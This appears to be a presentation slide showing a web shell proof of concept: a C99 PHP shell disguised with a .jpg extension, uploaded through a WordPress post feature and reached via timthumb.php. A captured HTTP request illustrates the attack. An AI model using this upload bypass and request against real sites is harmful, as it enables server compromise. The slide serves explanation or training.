

# Webshell POC/Example
The following sequence shows the attacker accessing the post feature and uploading a C99 shell bypassing sanitation controls by adding a .jpg extension to the actual shell “c9920161.php”. This is done by abusing the new post feature that includes uploading media:
00:28:39.469021 IP attackerIP.51399 > victimdomain.80:
     Flags [P.], seq 13419:14264, ack 145980, win 4096,
     options [nop,nop,TS val 787343940 ecr 195280],
     length 845: HTTP: GET /wordpress/wp-content/plugins
     /a-gallery/timthumb.php?src=http://victimdomain/
     wordpress/wp-content/uploads/2016/06/c992016.php.
     jpg&w=125&h=125&zc=1 HTTP/1.1...D....GET /wordpress
     /wp-content/plugins/a-gallery/timthumb.php?src=http
     ://victimdomain/wordpress/wp-content/uploads
     /2016/06/c9920161.php.jpg&w=125&h=125&zc=1 HTTP/1.1